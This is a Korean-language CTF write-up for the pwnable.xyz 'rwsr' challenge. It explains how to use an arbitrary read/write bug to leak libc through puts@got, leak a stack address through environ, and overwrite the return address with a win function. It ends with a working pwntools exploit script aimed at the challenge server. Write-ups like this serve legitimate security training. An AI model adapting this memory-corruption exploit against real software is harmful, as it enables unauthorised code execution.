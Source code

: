 ```yaml
---
title: "[pwnable.xyz]rwsr"
date: 2020-1-31
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


Full RELRO, Canary, NX 보호기법이 적용되어있다. 

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

원하는 주소의 값을 읽을 수 있고 그 해당 주소에 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char *s; // ST10_8
  char *v6; // ST10_8

  setup();
  puts("Read Write Sleep Repeat.");
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_ulong();
        if ( v3 != 1 )
          break;
        printf("Addr: ", argv);                 // read
        s = read_ulong();
        puts(s);
      }
      if ( v3 != 2 )                            // write
        break;
      printf("Addr: ", argv);
      v6 = read_ulong();
      printf("Value: ");
      *v6 = read_ulong();
    }
  }
  while ( v3 );
  return 0;
}
```

write라 got 덮을라 했는데 Full RELRO여서 return address를 write하는 방법을 생각했다. 

environ을 이용해서 stack leak을 해주면 된다. 우선 원하는 주소의 값을 알 수 있으니까 puts@got를 read하면 실제 주소가 나올거고 립씨 베이스도 구할 수 있다.

environ을 이용해서 stack 릭하는 방법은 `libc_base + libc.symbols['environ']` 을 leak하면 stack 주소를 구할 수 있다. 

그리고 리턴 주소를 구해야하는데 우선 rbp+8이 리턴주소니까 rbp와 leak한 stack주소의 오프셋을 구해줘서 + 8 해주면 된다.

이후에 2번 메뉴 Write로 return address에 win함수 주소를 넣고 exit해주면 win으로 리턴된다.

environ을 이용해서 stack leak하기 위해서 필요한 것은 립씨 베이스를 알아야하고 environ을 leak할 수 있어야한다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30019)
libc = ELF('alpine-libc-2.28.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
win = e.symbols['win']
main = e.symbols['main']

sla('>','1')
sa(':',str(e.got['puts']))
puts = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('puts : {}'.format(hex(puts)))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : {}'.format(hex(libc_base)))
environ_ptr = libc_base + libc.symbols['environ'] 
log.info('environ_ptr : {}'.format(hex(environ_ptr)))

sla('>','1')
sa(':',str(environ_ptr))
environ = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('environ : {}'.format(hex(environ)))
# environ - rbp = 248
rbp = environ - 248
log.info('rbp : {}'.format(hex(rbp)))
return_add = rbp + 8
log.info('return : {}'.format(hex(return_add)))

sla('>','2')
sa(':',str(return_add))
sa(':',str(win))

sla('>','0')

p.interactive()
```

